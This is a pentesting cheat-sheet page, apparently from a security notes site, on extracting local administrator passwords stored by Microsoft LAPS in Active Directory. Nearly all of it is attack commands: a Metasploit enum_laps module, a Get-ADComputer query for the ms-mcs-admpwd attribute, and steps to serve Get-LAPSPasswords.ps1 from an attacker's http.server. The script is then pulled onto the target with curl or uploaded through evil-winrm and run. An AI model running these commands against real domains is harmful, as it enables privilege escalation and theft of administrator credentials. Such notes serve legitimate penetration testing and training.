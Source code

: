 ```yaml
---
title: LAPS (Local Administrator Password Solution) Pentesting
description: LAPS provides management of local account passwords of domain joined computers. Passwords are stored in Active Directory.
tags:
    - Active Directory
    - Privilege Escalation
    - Windows
refs:
date: 2022-12-22
draft: false
---
```


## Enumeration

```sh
msfconsole
use post/windows/gather/credentials/enum_laps
set session 2
exploit
```

<br />

## Obtain Administrator's Password

First, check if you are in the **LAPS_Readers** group.

```powershell
net user <current-username>
# Global Group memberships  *LAPS_Readers
```

### Using Get-ADComputer

**Get-ADComputer** gets the information of the Active Directory computer.

```powershell
Get-ADComputer -Identity '<active-directory-computer-name>' -property 'ms-mcs-admpwd'
```

### Using Get-LAPSPasswords.ps1

1. **Download the Payload in Local Machine**

    If you are in LAPS_Readers, you can get the administrator's password using **[Get-LAPSPasswords.ps1](https://github.com/kfosaaen/Get-LAPSPasswords/blob/master/Get-LAPSPasswords.ps1){:target="_blank"}{:rel="noopener"}**.

    ```sh
    wget https://github.com/kfosaaen/Get-LAPSPasswords/blob/master/Get-LAPSPasswords.ps1
    ```

2. **Transfer the Payload to Target Machine**

    - **via PowerShell**

        First off, open web server in local machine.

        ```sh
        python3 -m http.server 8000
        ```

        Then curl in target machine

        ```powershell
        curl http://<local-ip>:8000/Get-LAPSPasswords.ps1 -o .\Get-LAPSPasswords.ps1
        ```

    - **via Evil-WinRM**

        If you connect the remote Windows machine with Evil-WinRM, you can use directly by adding **-s** flag when connecting.

        ```powershell
        evil-winrm -i <target-ip> -u username -p password -s /path/to/current/directory
        ```

        Then just execute the payload in evil-winrm console.

        ```powershell
        PS > upload .\Get-LAPSPasswords.ps1 c:\Users\<username>\Desktop\Get-LAPSPasswords.ps1
        ```

3. **Execute the Payload in Target Machine**

    ```powershell
    .\Get-LAPSPasswords.ps1
    ```